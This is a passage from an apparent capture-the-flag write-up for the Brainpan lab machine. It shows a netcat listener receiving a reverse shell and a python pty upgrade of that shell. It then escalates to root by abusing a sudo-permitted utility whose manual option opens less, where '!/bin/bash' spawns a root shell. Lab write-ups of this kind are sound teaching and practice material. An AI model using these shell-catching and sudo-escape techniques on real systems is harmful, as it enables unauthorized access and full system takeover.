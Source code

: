 `Netcat` receiving the connection.
```bash
kali@kali:~$ nc -lvp 4444
listening on [any] 4444 ...
connect to [192.168.1.4] from brainpan.com [192.168.1.2] 35982
id
uid=1002(puck) gid=1002(puck) groups=1002(puck)
python -c 'import pty;pty.spawn("/bin/bash")'
puck@brainpan:/home/puck$ id
id
uid=1002(puck) gid=1002(puck) groups=1002(puck)
puck@brainpan:/home/puck$ 
```
And we have a shell.

## Root Shell
Check if the user has any `sudo` permissions.

```bash
puck@brainpan:/home/puck$ sudo -l
sudo -l
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
puck@brainpan:/home/puck$ 
```

We can execute a binary named `anansi_util`.

```bash
puck@brainpan:/home/puck$ sudo /home/anansi/bin/anansi_util
sudo /home/anansi/bin/anansi_util
Usage: /home/anansi/bin/anansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
```

Running the binary shows that we have three options. The last one is used to view the man page of a command. The `man` page is displayed using `less`. We can execute a shell from `less` using `!/bin/bash` to get `root`.

```
puck@brainpan:/home/puck$ sudo /home/anansi/bin/anansi_util manual test
sudo /home/anansi/bin/anansi_util manual test
No manual entry for manual
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/bash
!/bin/bash
root@brainpan:/usr/share/man# id
id
uid=0(root) gid=0(root) groups=0(root)
```

And we are root.
